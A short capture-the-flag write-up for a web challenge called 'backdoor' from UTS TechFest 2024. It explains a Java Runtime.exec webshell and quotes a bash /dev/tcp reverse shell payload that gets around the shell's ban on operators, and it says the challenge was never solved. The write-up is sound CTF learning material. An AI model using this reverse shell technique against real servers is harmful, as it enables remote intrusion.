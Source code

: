 ```yaml
---
title: "backdoor"
description: "The admin left his testing pannel open. Wonder if you can get rce from it?\n\nendpoint: `http://<ip>:8080/development/?54b8617eca0e54c7d3c8e6732c6b687a=<cmd>`"
pubDate: 2024-06-29
ctf: "UTS TechFest 2024"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/24-utstechfest/icon.png"
---
```


This challenge has 0 solves, nor by me but after talking to the author they explained their personal research to find this quirk and how to exploit it.

We are given a webshell off the bat, our aim is to reverse shell. Via using the `webshell` we can find the source code for the current page, its using a shell like this.

```java
Runtime.getRuntime().exec(request.getParameter("54b8617eca0e54c7d3c8e6732c6b687a"));
```

Interestingly, this kind of shell does not allow operators, such as `<`, `>`, `|`, etc.

The author has some [research on this](https://web.archive.org/web/20250710055938/https://github.com/ElJayRight/old-notes/blob/main/06%20-%20Random%20Shit/Javaisbad.md), but the TL;DR is a payload like this: `bash -c $@|bash null echo bash -i >& /dev/tcp/<ip>/<port> 0>&1`

After trying the payload the reverse shell failed again, we think the AWS infrastructure was blocking the connections.

Presumably the user then had to `su root` then read the flag.

Flag: `Not Solved`